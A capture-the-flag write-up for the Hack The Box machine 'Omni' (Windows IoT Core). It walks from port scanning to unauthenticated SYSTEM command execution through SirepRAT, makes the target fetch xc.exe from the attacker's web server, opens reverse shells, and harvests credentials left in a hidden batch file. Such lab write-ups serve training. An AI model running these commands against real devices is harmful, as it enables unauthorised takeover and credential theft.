






---
search:
  exclude: true
---
# Omni Writeup

## Introduction :

Omni is an Easy box released back in August 2020, it features a Windows IOT Core which can run on raspberry pis.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Omni]
    → nmap -vvv -p- 10.10.10.204 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered                                                                                                                                             
    Discovered open port 8080/tcp on 10.10.10.204
    Discovered open port 135/tcp on 10.10.10.204
    Discovered open port 29817/tcp on 10.10.10.204
    Discovered open port 29820/tcp on 10.10.10.204
    Discovered open port 5985/tcp on 10.10.10.204
    Discovered open port 29819/tcp on 10.10.10.204
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Omni]
    → nmap -sCV -p 135,8008,5985,29817,29820,29819 10.10.10.204 -Pn
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-02 16:51 CEST
    Nmap scan report for 10.10.10.204
    Host is up (0.039s latency).
    
    PORT      STATE    SERVICE  VERSION
    135/tcp   open     msrpc    Microsoft Windows RPC
    5985/tcp  open     upnp     Microsoft IIS httpd
    8008/tcp  filtered http
    29817/tcp open     unknown
    29819/tcp open     arcserve ARCserve Discovery
    29820/tcp open     unknown
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port29820-TCP:V=7.91%I=7%D=6/2%Time=60B79B09%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
    SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
    SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
    SF:9}\xc8O\x12");
    Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 74.02 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 8080, so let's investigate it: 

We don't have credentials yet, so let's try to spawn a null session on the RPC port:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Omni]
    → rpcclient -U "" -N 10.10.10.204
    Cannot connect to server.  Error was NT_STATUS_IO_TIMEOUT
    
    

No luck either, all that's left is the other 298XX ports, but we barely have any info on those. Although we know that this is windows from the port scanning, let's search what the ports may be about with what we know:

And now we're onto something! This may be a Windows IOT machine, and the [presentation](https://woprsummit.org/slides-archive/SirepRAT_RCEasSYSTEMonWindowsIoTCore-WOPRSummit.pdf)that was presented in 2019 goes into how the Sirep protocol works, which also shows how it provides a remote unauthenticated execution of SYSTEM on windows IOT hosts. 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [HTB/Omni/SirepRAT]
    → python3 SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice
    <****SystemInformationResult | type: 51, payload length: 32, kv: {'dwOSVersionInfoSize': 0, 'dwMajorVersion': 10, 'dwMinorVersion': 0, 'dwBuildNumber': 17763, 'dwPlatformId': 2, 'szCSDVersion': 0, 'wServicePackMajor': 1, 'wServicePackMinor': 2, 'wSuiteMask': 0, 'wProductType': 0, 'wReserved': 0}>
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "\c dir -e powershell.exe" --v
    ---------
    
    ---------
    ---------
    Microsoft Windows [Version 10.0.17763.107]
    Copyright (c) Microsoft Corporation. All rights reserved.
    
    C:\windows\system32>
    --------- <****HResultResult | type: 1, payload length: 4, HResult: 0x0> <****OutputStreamResult | type: 11, payload length: 125, payload peek: 'b'Microsoft Windows [Version 10.0.17763.107]\r\nCopyri''>
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "\c whoami -e powershell.exe" --v
    ---------
    
    ---------
    ---------
    Microsoft Windows [Version 10.0.17763.107]
    Copyright (c) Microsoft Corporation. All rights reserved.
    
    C:\windows\system32>
    --------- <****HResultResult | type: 1, payload length: 4, HResult: 0x0> <****OutputStreamResult | type: 11, payload length: 125, payload peek: 'b'Microsoft Windows [Version 10.0.17763.107]\r\nCopyri''>

Very weird box, we can't even use the whoami command, but let's try to get nc.exe onto the box, we're going to get [xc.exe](../Tools/xc/index.md) instead:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [HTB/Omni/SirepRAT]
    → locate xc.exe
    /home/nothing/HTB/Servmon/xc/xc.exe
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [HTB/Omni/SirepRAT]
    → cp /home/nothing/HTB/Servmon/xc/xc.exe .
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [HTB/Omni/SirepRAT]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    

Then we make the box download it using SirepRAT.py:
    
    
    [term1]
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → cp /home/nothing/HTB/Servmon/xc/xc .
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → ./xc -l -p 9009
    
                    __  _____
                    \ \/ / __|
                    >  <****(__
                    /_/\_\___| by @xct_de
                               build: QUnVVFdLYEkibcKx
    
    2021/06/02 17:31:18 Listening on :9009
    2021/06/02 17:31:18 Waiting for connections...
    
    
    [term2]
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [HTB/Omni/SirepRAT]
    → locate xc.exe
    /home/nothing/HTB/Servmon/xc/xc.exe
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [HTB/Omni/SirepRAT]
    → cp /home/nothing/HTB/Servmon/xc/xc.exe .
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [HTB/Omni/SirepRAT]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    
    [term3]
    
    [ 10.10.14.13/23 ] [ /dev/pts/75 ] [HTB/Omni/SirepRAT]
    → python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\xc.exe -Uri http://10.10.14.13:9090/xc.exe" --v
    ---------
    
    --------- <****HResultResult | type: 1, payload length: 4, HResult: 0x0>

Now that the xc.exe binary got downloaded by the box, we're going to use it to get the reverse shell:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/75 ] [HTB/Omni/SirepRAT]
    → python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\xc.exe 10.10.14.13 9009 -e powershell.exe" --v
    ---------
    
    ---------
    ---------
    2021/06/02 15:42:11 Connected to 10.10.14.13:9009
    
    ---------
    <****HResultResult | type: 1, payload length: 4, HResult: 0x0> <****OutputStreamResult | type: 11, payload length: 50, payload peek: 'b'2021/06/02 15:42:11 Connected to 10.10.14.13:9009\n''>

And we catched the reverse xc shell connection:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → ./xc -l -p 9009
    
                    __  _____
                    \ \/ / __|
                    >  <****(__
                    /_/\_\___| by @xct_de
                               build: QUnVVFdLYEkibcKx
    
    2021/06/02 17:31:18 Listening on :9009
    2021/06/02 17:31:18 Waiting for connections...
    2021/06/02 17:34:39 Connection from 10.10.10.204:49670
    2021/06/02 17:34:39 Stream established
    
    [*] Auto-Plugins:
    [xc: C:\windows\system32]: !shell
    Microsoft Windows [Version 10.0.17763.107]
    Copyright (c) Microsoft Corporation. All rights reserved.
    
    C:\windows\system32>whoami
    whoami
    'whoami' is not recognized as an internal or external command,
    operable program or batch file.

Here you see we really cannot use the whoami command, instead we're going to get the value of the **$env:UserName** powershell variable:
    
    
    C:\windows\system32>powershell
    powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    
    PS C:\windows\system32> $env:UserName
    $env:UserName
    omni$
    
    

the omni user does not have access to neither user.txt nor to root.txt, so let's enumerate the box for potential privesc paths with winPEAS:
    
    
    PS C:\windows\system32> cd C:\
    cd C:\
    PS C:\> dir
    dir
    
    
        Directory: C:\
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        7/20/2020   2:36 AM                $Reconfig$
    d----l       10/26/2018  11:35 PM                Data
    d-----       10/26/2018  11:37 PM                Program Files
    d-----       10/26/2018  11:38 PM                PROGRAMS
    d-----       10/26/2018  11:37 PM                SystemData
    d-r---       10/26/2018  11:37 PM                Users
    d-----         7/3/2020  10:35 PM                Windows
    
    
    PS C:\> mkdir Temp
    mkdir Temp
    
    
        Directory: C:\
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----         6/2/2021   3:45 PM                Temp
    
    
    PS C:\> cd Temp
    cd Temp
    PS C:\Temp>
    

We're going to upload our script in a temporary directory we created:
    
    
    [term1]
    
    [ 10.10.14.13/23 ] [ /dev/pts/75 ] [HTB/Omni/SirepRAT]
    → locate winPEAS.ps1
    /usr/share/powershell-empire/data/module_source/privesc/Invoke-winPEAS.ps1
    
    [ 10.10.14.13/23 ] [ /dev/pts/75 ] [HTB/Omni/SirepRAT]
    → cp $(locate winPEAS.ps1) .
    
    [ 10.10.14.13/23 ] [ /dev/pts/75 ] [HTB/Omni/SirepRAT]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [term2]
    
    PS C:\Temp> Invoke-WebRequest -uri "http://10.10.14.13:9090/Invoke-winPEAS.ps1" -o "peas.ps1"
    Invoke-WebRequest -uri "http://10.10.14.13:9090/Invoke-winPEAS.ps1" -o "peas.ps1"
    
    PS C:\Temp> ls
    ls
    
    
        Directory: C:\Temp
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----         6/2/2021   3:56 PM         233056 peas.ps1
    
    PS C:\Temp> import-module ./peas.ps1
    import-module ./peas.ps1
    
    PS C:\Temp> Invoke-winPEAS
    
    PS C:\Temp> import-module .\peas.ps1
    import-module .\peas.ps1
    
    PS C:\Temp> Invoke-winPEAS
    Invoke-winPEAS
    Unable to find type [w1nP34S.Program].
    At C:\Temp\peas.ps1:20 char:5
    +     [w1nP34S.Program]::Main($Command.Split(" "))
    +     ~~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (w1nP34S.Program:TypeName) [],
        RuntimeException
        + FullyQualifiedErrorId : TypeNotFound
    
    

Yeah right, that box is quite a mess so let's manually enumerate:
    
    
    PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> ls
    ls
    
    
        Directory: C:\Program Files\WindowsPowerShell\Modules\PackageManagement
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       10/26/2018  11:37 PM                1.0.0.1
    
    
    
    PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> ls -force
    ls -force
    
    
        Directory: C:\Program Files\WindowsPowerShell\Modules\PackageManagement
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       10/26/2018  11:37 PM                1.0.0.1
    -a-h--        8/21/2020  12:56 PM            247 r.bat
    
    
    
    PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> cat r.bat
    cat r.bat
    @echo off
    
    :LOOP
    
    for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete
    
    net user app mesh5143
    net user administrator _1nt3rn37ofTh1nGz
    
    ping -n 3 127.0.0.1
    
    cls
    
    GOTO :LOOP
    
    :EXIT
    
    

And here we find credentials **app:mesh5143** and **administrator:_int3rn37ofTh1nGz** , Let's first get the app user's flag:

once logged in we are greeted by the Windows Device Portal, however we're interested in the command prompt:

And we're going to run our xc.exe binary once again, but this time as the app user:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → ./xc -l -p 9008
    
                    __  _____
                    \ \/ / __|
                    >  <****(__
                    /_/\_\___| by @xct_de
                               build: QUnVVFdLYEkibcKx
    
    2021/06/02 18:20:13 Listening on :9008
    2021/06/02 18:20:13 Waiting for connections...

` 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Omni/SirepRAT]
    → ./xc -l -p 9008
    
                    __  _____
                    \ \/ / __|
                    >  <****(__
                    /_/\_\___| by @xct_de
                               build: QUnVVFdLYEkibcKx
    
    2021/06/02 18:21:50 Listening on :9008
    2021/06/02 18:21:50 Waiting for connections...
    2021/06/02 18:21:54 Connection from 10.10.10.204:49676
    2021/06/02 18:21:54 Stream established
    
    [*] Auto-Plugins:
    [xc: C:\windows\system32]: !shell
    Microsoft Windows [Version 10.0.17763.107]
    Copyright (c) Microsoft Corporation. All rights reserved.
    
    C:\windows\system32>powershell
    powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\windows\system32> cd C:\
    cd C:\
    PS C:\> cd Data
    cd Data
    PS C:\Data> cd Users
    cd Users
    PS C:\Data\Users> cd app
    cd app
    PS C:\Data\Users\app> ls
    ls
    
    
        Directory: C:\Data\Users\app
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---         7/4/2020   7:28 PM                3D Objects
    d-r---         7/4/2020   7:28 PM                Documents
    d-r---         7/4/2020   7:28 PM                Downloads
    d-----         7/4/2020   7:28 PM                Favorites
    d-r---         7/4/2020   7:28 PM                Music
    d-r---         7/4/2020   7:28 PM                Pictures
    d-r---         7/4/2020   7:28 PM                Videos
    -ar---         7/4/2020   8:20 PM            344 hardening.txt
    -ar---         7/4/2020   8:14 PM           1858 iot-admin.xml
    -ar---         7/4/2020   9:53 PM           1958 user.txt
    
    
    PS C:\Data\Users\app> cat user.txt
    cat user.txt <****Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"> <****Obj RefId="0"> <****TN RefId="0"> <****T>System.Management.Automation.PSCredential <****/T> <****T>System.Object <****/T> <****/TN> <****ToString>System.Management.Automation.PSCredential <****/ToString>** rops>
          <****S N="UserName">flag <****/S> <****SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009e131d78fe272140835db3caa288536400000000020000000000106600000001000020000000ca1d29ad4939e04e514d26b9706a29aa403cc131a863dc57d7d69ef398e0731a000000000e8000000002000020000000eec9b13a75b6fd2ea6fd955909f9927dc2e77d41b19adde3951ff936d4a68ed750000000c6cb131e1a37a21b8eef7c34c053d034a3bf86efebefd8ff075f4e1f8cc00ec156fe26b4303047cee7764912eb6f85ee34a386293e78226a766a0e5d7b745a84b8f839dacee4fe6ffb6bb1cb53146c6340000000e3a43dfe678e3c6fc196e434106f1207e25c3b3b0ea37bd9e779cdd92bd44be23aaea507b6cf2b614c7c2e71d211990af0986d008a36c133c36f4da2f9406ae7 <****/SS> <****/Props> <****/Obj> <****/Objs>

The user flag seems to be encrypted, but we can use **Import-CliXml** to decrypt it:
    
    
    PS C:\Data\Users\app> (Import-CliXml -Path user.txt).GetNetworkCredential().Password
    (Import-CliXml -Path user.txt).GetNetworkCredential().Password
    7cfd50f6bc34db3204898f1505ad9d70
    7cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it ! we got the user flag!

## **Part 3 : Getting Root Access**

We're going to repeat the same process with the administrator credentials:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/76 ] [HTB/Omni/SirepRAT]
    → ./xc -l -p 9007
    
                    __  _____
                    \ \/ / __|
                    >  <****(__
                    /_/\_\___| by @xct_de
                               build: QUnVVFdLYEkibcKx
    
    2021/06/02 18:37:14 Listening on :9007
    2021/06/02 18:37:14 Waiting for connections...

`  
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/76 ] [HTB/Omni/SirepRAT]
    → ./xc -l -p 9007
    
                    __  _____
                    \ \/ / __|
                    >  <****(__
                    /_/\_\___| by @xct_de
                               build: QUnVVFdLYEkibcKx
    
    2021/06/02 18:37:14 Listening on :9007
    2021/06/02 18:37:14 Waiting for connections...
    2021/06/02 19:12:32 Connection from 10.10.10.204:49677
    2021/06/02 19:12:32 Stream established
    
    [*] Auto-Plugins:
    [xc: C:\windows\system32]: !shell
    Microsoft Windows [Version 10.0.17763.107]
    Copyright (c) Microsoft Corporation. All rights reserved.
    
    C:\windows\system32>cd ../../..
    cd ../../..
    
    C:\>cd Data
    cd Data
    
    C:\Data>powershell
    powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\Data\> cd Users\administrator
    cd Users\administrator
    
    PS C:\Data\Users\administrator> ls
    ls
    
    
        Directory: C:\Data\Users\administrator
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---         7/3/2020  11:23 PM                3D Objects
    d-r---         7/3/2020  11:23 PM                Documents
    d-r---         7/3/2020  11:23 PM                Downloads
    d-----         7/3/2020  11:23 PM                Favorites
    d-r---         7/3/2020  11:23 PM                Music
    d-r---         7/3/2020  11:23 PM                Pictures
    d-r---         7/3/2020  11:23 PM                Videos
    -ar---         7/4/2020   9:48 PM           1958 root.txt
    
    
    PS C:\Data\Users\administrator> (Import-CliXml -Path root.txt).GetNetworkCredential() | fl
    (Import-CliXml -Path root.txt).GetNetworkCredential() | fl
    
    
    UserName : flag
    Password : 5dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    Domain   :
    
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

